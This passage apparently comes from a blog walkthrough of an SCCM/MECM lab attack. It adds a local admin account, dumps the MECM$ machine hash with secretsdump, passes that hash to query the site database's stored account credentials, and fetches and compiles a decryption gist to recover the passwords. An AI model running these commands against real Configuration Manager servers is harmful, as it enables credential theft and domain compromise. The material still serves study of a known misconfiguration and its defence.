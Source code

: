 ![get_system_on_mecm.png](/assets/blog/SCCM/get_system_on_mecm.png)

- Ok let's add a user to MECM local admin and try to retrieve and decipher the DB stored credentials

```
ps> net user myadmin myadminpass /add
The command completed successfully.

ps> net localgroup administrators myadmin /add
The command completed successfully.
```

## cred 5 - Site Database Credentials

- Details here : [Cred-5](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-5/cred-5_description.md)
- At this step we have a local admin account on the MECM computer, let's retrieve all the stored credentials in the database
- First we will retrieve the `MECM$` ntlm hash

```bash
secretsdump.py MECM/myadmin:'myadminpass'@192.168.33.11
```

![secrets_dump_mecm.png](/assets/blog/SCCM/secrets_dump_mecm.png)

- Next we will use the `MECM$` account to retrieve the credentials in database

```bash
mssqlclient.py -windows-auth -hashes 'aad3b435b51404eeaad3b435b51404ee:c8c42823ab75c8740c3a4ae7329b4d20' 'SCCMLAB/MECM$'@192.168.33.12
use CM_P01;
SELECT * FROM SC_UserAccount;
```

![sccm_get_credentials_db.png](/assets/blog/SCCM/sccm_get_credentials_db.png)

- Ok and now we will decipher the password with Adam Chester's (xpn) [gist](https://gist.github.com/xpn/5f497d2725a041922c427c3aaa3b37d1)

- Connect to MECM in RDP with myadmin user

```bash
xfreerdp /u:"myadmin" /p:"myadminpass" /v:"192.168.33.11" /cert-ignore
```

```powershell
cd C:\Users\myadmin\Desktop
# copy the gist file
curl https://gist.githubusercontent.com/xpn/5f497d2725a041922c427c3aaa3b37d1/raw/f3cc19a7a834adc9676983def23f2a1b43221b42/sccmdecryptpoc.cs -O sccmdecryptpoc.cs
# compile the file
C:\windows\Microsoft.NET\Framework64\v3.5\csc.exe /t:exe /out:sccmdecryptpoc.exe sccmdecryptpoc.cs
# and decrypt the users password
.\sccmdecryptpoc.exe <cyphered_value>
```
